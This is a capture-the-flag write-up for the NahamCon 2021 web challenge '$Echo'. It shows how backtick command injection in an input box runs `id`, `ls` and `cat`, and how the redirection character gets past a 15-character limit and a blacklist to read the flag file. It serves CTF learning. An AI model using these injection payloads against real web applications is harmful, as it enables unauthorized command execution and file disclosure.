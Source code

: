 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | $Echo Writeup
desc: Check out our writeup for $Echo for Nahamcon 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: $Echo
tags: "web, rce"
date: 2021-03-15T00:00:00+00:00
last_modified_at: 2021-03-15T00:00:00+00:00
---
```




It is simple command injection
in the input box we can use ` characters 

```
`id`
```

all commands have to be enclosed in `` chars

now if we list files using
```
`ls`
``` 
we can see `index.php` when we 
```
`cat index.php`
```
we can see the code!
certain characters are `blacklisted`  we can only enter command less that `15` chars
but there is no `flag.txt` here, if we simply execute 
```
`ls ../`
```
then we can see flag.txt
```
`cat ../flag.txt`
```
fails because length of payload exceeds 15

payload to get flag : 

**linux redirection character! `<` is NOT blacklisted!**
```
`< ../flag.txt`
```

